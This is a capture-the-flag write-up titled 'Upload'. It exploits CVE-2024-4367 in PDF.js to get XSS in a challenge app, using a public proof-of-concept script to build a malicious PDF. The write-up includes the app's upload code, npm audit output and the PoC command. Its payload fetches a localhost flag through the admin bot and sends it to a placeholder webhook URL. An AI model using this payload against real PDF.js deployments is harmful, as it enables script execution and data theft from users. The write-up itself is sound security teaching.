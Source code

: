 # Upload

## Exploring the Intricacies of CVE-2024-4367 in PDF.js Library for XSS Exploits

### Authored by: @S0nG0ku

### Title: Exploiting CVE-2024-4367 in PDF.js Library for XSS Vulnerabilities

#### Introduction:
CVE-2024-4367 presents a critical vulnerability within the esteemed PDF.js library, widely embraced for its adeptness in rendering PDF files in web browsers. This particular exploit enables adversaries to inject and execute arbitrary JavaScript code within a user's browser context, catalyzing a perilous Cross-Site Scripting (XSS) scenario.

#### In-Depth Analysis:

- Delving into the Application's PDF File Upload Mechanism:

```javascript
const upload = multer({ 
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (file.mimetype == "application/pdf") {
      cb(null, true);
    } else {
      cb(null, false);
      return cb(new Error('Only .pdf format allowed!'));
    }
  }
  .....
  app.get('/upload', (req, res) => {
	let error = req.session.error;
	if (error) {
	  req.flash('error', 'Your error message');
	  return res.redirect('/upload');
	}	
	if (req.session.user) {
	  res.render('upload');
	} else {
	  res.redirect('/login');
	}
});

app.post('/upload', upload.single('file'), (req, res) => {
	const fileData = {
	  filename: req.file.filename,
	  path: req.file.path,
	  user: req.user
	};
  
	uploadfile.insert(fileData, (err, newDoc) => {
	  if (err) {
		res.status(500).send(err);
	  } else {
		res.redirect('/view/' + req.file.filename);
	  }
	});
});
});
```

- A Crucial Vulnerability in PDF.js Version Discovered via npm Audit:

```
# npm audit report

nedb  *
Severity: critical
Prototype Pollution in nedb - https://github.com/advisories/GHSA-339j-hqgx-qrrx
Depends on vulnerable versions of binary-search-tree
Depends on vulnerable versions of underscore
No fix available
node_modules/nedb

pdfjs-dist  <=4.1.392
Severity: high
PDF.js vulnerable to arbitrary JavaScript execution upon opening a malicious PDF - https://github.com/advisories/GHSA-wgrm-67xf-hhpq
fix available via `npm audit fix --force`
Will install pdfjs-dist@4.3.136, which is a breaking change
node_modules/pdfjs-dist
```

- Stay Informed with Recent Articles Addressing this Vulnerability.

- Obtain the Repository for Further Examination: https://github.com/LOURC0D3/CVE-2024-4367-PoC.

- JS Execution
```
python3 CVE-2024-4367.py "alert(document.domain)"
```

- Proceed to Acquire the Flag Located at localhost/flag, Currently Inaccessible.

```
app.get('/flag', (req, res) => {
  let ip = req.connection.remoteAddress;
  if (ip === '127.0.0.1') {
    res.json({ flag: 'AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3}' });
  } else {
    res.status(403).json({ error: 'Access denied' });
  }
});
```

- Utilize bot.js's Ability to Access Localhost to Exploit XSS and Retrieve /flag:

```
fetch("/flag")
  .then(response => response.json())
  .then(data => {
    const flag = encodeURIComponent(JSON.stringify(data));
    return fetch(`<WEBHOOK_URL_HERE>?flag=${flag}`);
  })
```

```
python3 CVE-2024-4367.py 'fetch("/flag")
  .then(response => response.json())
  .then(data => {
    const flag = encodeURIComponent(JSON.stringify(data));
    return fetch(`<WEBHOOK_URL_HERE>?flag=${flag}`);
  })'
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```
- Upon Successful Upload and Transmission to the Bot, the Flag is Attained.

#### Conclusion:
CVE-2024-4367 underscores the criticality of maintaining up-to-date software libraries and adhering to secure coding practices to mitigate the risk of XSS attacks and other security vulnerabilities in web applications that rely on third-party libraries like PDF.js. For further insights into the technical details and exploitation techniques related to this vulnerability, readers are encouraged to visit the comprehensive analysis available at codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/. By comprehensively understanding this vulnerability and its potential implications, developers and security professionals can enhance their defenses and safeguard their applications and users against exploitation.